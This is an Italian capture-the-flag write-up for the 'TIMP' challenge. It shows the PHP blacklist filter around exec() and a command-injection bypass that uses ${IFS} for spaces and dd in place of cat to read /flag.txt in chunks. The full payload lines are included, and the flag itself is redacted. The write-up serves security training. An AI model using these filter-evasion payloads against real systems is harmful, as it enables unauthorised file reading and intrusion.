 ## 🐮 TIMP – Terminale Inhackerabile della Mucca Parlante

**URL:** [http://timp.challs.olicyber.it](http://timp.challs.olicyber.it)
**Descrizione:**

> Il terminale fa parlare una mucca con `cowsay`, ma l'obiettivo nascosto è leggere la flag in `/flag.txt`.
> Ci sono diversi filtri anti-comando e anti-bypass, ma esistono più modi per aggirarli.

---

## 🔍 Analisi del codice PHP

Nel form web viene eseguito questo PHP:

```php
if(preg_match('/[#@%^&*_+\[\]:>?~\\\\]/', $cmd)){
    ...
}
elseif(strlen($cmd) > 70){
    ...
}
elseif (strpos($cmd, "cowsay") !== false) {
    ...
}
elseif(strpos($cmd, "sudo") !== false){
    ...
}
elseif(strpos($cmd, "echo") !== false){
    ...
}
elseif (strpos($cmd, "cat") !== false) {
    ...
}
elseif (strpos($cmd, " ") !== false){
    ...
}
elseif (strpos($cmd, "head") !== false || strpos($cmd, "tail") !== false || strpos($cmd, "od") !== false || strpos($cmd, "less") !== false || strpos($cmd, "head") !== false || strpos($cmd, "hexdump") !== false){
    ...
}
else{
    $result = exec($cmd);
}
```

### 🚫 Cosa blocca?

* **Caratteri speciali:** `#@%^&*_+[]:>?~\`
* **Comandi comuni:** `cat`, `echo`, `sudo`, `head`, `tail`, `less`, `od`, `hexdump`
* **Spazi normali (`" "`)**
* **Stringhe troppo lunghe (>70 char)**

---

## 🧠 Idea di exploit

Non possiamo usare `cat /flag.txt` perché:

* `"cat"` è bloccato
* gli **spazi** sono bloccati

Ma c’è un dettaglio: **la funzione `exec()` viene comunque eseguita se il comando non contiene parole vietate né spazi!**

---

## ✅ Bypass spazio: `${IFS}`

`${IFS}` è una variabile bash che rappresenta l’**Input Field Separator** (di default è lo spazio).
Quindi possiamo fare:

```bash
cat${IFS}/flag.txt
```

Ma `"cat"` è bloccato ⇒ usiamo un altro comando che può leggere i file: **`dd`**.

---

## 🚀 Uso di `dd`

`dd` permette di leggere blocchi di file:

```bash
dd if=/flag.txt bs=1 skip=0 count=10
```

* `if=`: file di input
* `bs=1`: un byte alla volta
* `skip`: da dove partire
* `count`: quanti byte leggere

⚠️ Ma dobbiamo usare `${IFS}` al posto degli spazi:

```bash
dd${IFS}if=/flag.txt${IFS}bs=1${IFS}skip=0${IFS}count=10
```

---

## 🪓 Spezzare la flag a blocchi da 10 caratteri

La flag è lunga \~50 caratteri. La leggiamo in **chunk da 10**:

```
dd${IFS}if=/flag.txt${IFS}bs=1${IFS}skip=0${IFS}count=10      → flag{xxxx
dd${IFS}if=/flag.txt${IFS}bs=1${IFS}skip=10${IFS}count=10     → xxxxxxxxxx
dd${IFS}if=/flag.txt${IFS}bs=1${IFS}skip=20${IFS}count=10     → xxxxxxxxxx
dd${IFS}if=/flag.txt${IFS}bs=1${IFS}skip=30${IFS}count=10     → xxxxxxxxxx
dd${IFS}if=/flag.txt${IFS}bs=1${IFS}skip=40${IFS}count=10     → xxxxxxxxxx}
```

---

## 🏁 Flag Finale

Unendo i pezzi:

```
flag{REDHACKTED}
```

---

## 📌 Conclusione

* **Filtri e limitazioni** bloccano i comandi classici.
* **Bypass** usando `${IFS}` al posto degli spazi.
* **Lettura alternativa** con `dd` invece di `cat`.
* Metodo preciso, stabile e replicabile su CTF simili.

